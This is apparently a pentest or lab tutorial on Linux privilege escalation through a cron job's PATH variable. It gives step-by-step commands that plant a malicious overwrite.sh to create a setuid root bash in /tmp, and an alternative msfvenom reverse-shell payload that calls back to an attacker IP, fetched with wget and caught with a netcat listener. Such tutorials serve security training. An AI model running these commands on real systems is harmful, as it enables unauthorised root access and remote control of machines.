

### **PATH Environment Variable**

In crontab, the default PATH environment variable is set to /usr/bin:/bin. However, this PATH can be overwritten within the crontab file. If a cron job script or program does not use an absolute path, and one of the directories in the PATH is writable by our user, we may be able to create a script or program with the same name as the cron job,This vulnerability allows us to run our own program/script instead of the intended cron job script, which could be exploited for various purposes.

### **Steps to Identify and Exploit PATH Environment Variable**

1.  Run LinPEAS to detect potential vulnerabilities, such as issues in the cron PATH.  
    
     
    
2.  We can Find where the overwrite.sh script is located using the find command:  
    `find / -iname overwrite.sh 2>/dev/null`  
    
     

    ??? info "NOTE"

        This indicates that overwrite.sh executes from the /usr/local/bin directory.
    
3.  Confirm that we have write permissions on the target directory:  
    `ls -la /home | grep "user"`  
    
     

    ??? info "NOTE"

        Here we see “w”, which means that we can write in this directory.
     
4.  To exploit this cron job, all we have to  craft a malicious payload named “overwrite.sh” and drop it in the /home/user/ folder.  
    `echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/rootme\nchmod +xs /tmp/rootme' > /home/user/overwrite.sh`
    
5.  In order for the cron job to execute our binary, Ensure the malicious script has execute permissions:  
    `chmod 755 /home/user/overwrite.sh`  

     
    
6.  Once the cron job has created and setuid rootbash, use it to open a shell with root privileges:  
    `/tmp/rootme -p`  
    
     
    
7.  Alternatively, use msfvenom to create a reverse shell payload:  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.92.52 LPORT=1337 -a x64 -f elf -o overwrite.sh`  
    
     
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/overwrite.sh -O /home/user/overwrite.sh`  
    
     
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod 755 ./overwrite.sh`  
    
     
    
10. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
     